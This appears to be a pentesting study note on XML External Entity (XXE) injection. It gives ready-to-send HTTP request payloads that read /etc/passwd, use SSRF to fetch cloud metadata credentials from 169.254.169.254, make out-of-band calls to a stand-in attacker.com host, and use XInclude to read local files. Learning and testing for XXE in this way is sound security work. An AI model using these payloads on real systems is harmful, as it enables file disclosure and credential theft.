 # 🔧 XML External Entity (XXE) Injection

## <mark style="color:red;">Intro</mark>

The XML document type definition (DTD) contains declarations that can define the structure of an XML document. The DTD is declared within the optional DOCTYPE element at the start of the XML document.

XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD.

Allows an attacker to interfere with an application's processing of XML data.

#### <mark style="color:red;">**Examples**</mark>

* Custom entities to be defined within the DTD\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`myentity`</mark>` ``"`<mark style="color:yellow;">`my entity value`</mark>`" > ]>`&#x20;
* XML external entities\
  uses the "SYSTEM" keyword and must specify a URL\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`http://normal-website.com`</mark>`" > ]>`\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`file:///path/to/file`</mark>`" > ]>`&#x20;

## <mark style="color:red;">Types of XXE attacks</mark>

### <mark style="color:purple;">Exploiting XXE to retrieve files</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

### <mark style="color:purple;">Exploiting XXE to perform SSRF attacks</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/admin/security-credentials"> ]><MainTag><VulTag>&ssrf;</VulTag></MainTag>
```

### <mark style="color:purple;">Blind XXE vulnerabilities</mark>

Does not return the values of any defined external entities within its responses.

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client)

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> ]>]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client) + + XML parameter entity

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> %xxe; ]> <MainTag><VulTag>&xxe;</VulTag></MainTag>
```

## <mark style="color:red;">Finding hidden attack surface for XXE injection</mark>

### <mark style="color:green;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document like: backend SOAP service.

"XInclude" is a part of the XML specification that allows an XML document to be built from sub-documents.

```
// Edit HTTP request with "BurpSuit Proxy"
POST /product/stock HTTP/1.1
Host: web-security-academy.net
...
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> &storeId=1
```
